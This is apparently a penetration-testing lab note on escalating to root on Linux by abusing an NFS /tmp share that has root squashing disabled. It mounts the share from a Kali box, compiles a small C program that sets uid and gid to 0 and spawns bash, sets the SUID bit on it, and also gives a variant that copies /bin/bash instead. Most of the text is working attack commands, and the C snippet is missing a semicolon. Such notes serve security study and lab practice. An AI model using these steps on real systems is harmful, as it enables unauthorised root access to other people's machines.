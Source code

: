 
Files created via NFS inherit the **remote** user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.

Check the NFS share configuration on the Debian VM:

```bash
cat /etc/exports
```

Suppose we found that the **/tmp** share has root squashing disabled.

On our machine, we switch to root and create a mount point on your Kali box and mount the **/tmp** share: 

```bash
sudo su
mkdir /tmp/nfs
mount -o rw,vers=3 <target ip>:/tmp /tmp/nfs
#or
mount -w nfs <target ip>:/tmp /tmp/nfs
```

# Exploitation

### Method 1

Still using Kali's root user, now we compile this (bash.c file) c code:

```c
int main()
{  setgid(0);
   setuid(0);
   system("/bin/bash")
   return 0;
}
```

And now we compile it:

```bash
gcc bash.c -o bash
# Note that we might add -static flag if the gcc version is different that the target
```

Finally, still using Kali's root user we make the file executable and set the SUID permission:

```bash
chmod +xs /tmp/nfs/bash
```

Now we go back to the target machine and run the file to gain a root shell:

```bash
/tmp/bash -p
```

### Method 2

On the target machine we use the following command to copy the `/bin/bash` from the target machine to the nfs share:

```bash
cp /bin/bash /tmp
#we might alost use the /bin/bash from the attacker machine but because the bash versions might be different so its better to copy the target one
```

Now on the attacker machine we change the owner to the root, and give the right permissions:

```bash
chown root bash
chmod +xs bash
```

Finally, we go back to the target machine and run the file to gain a root shell:

```bash
/tmp/bash -p
```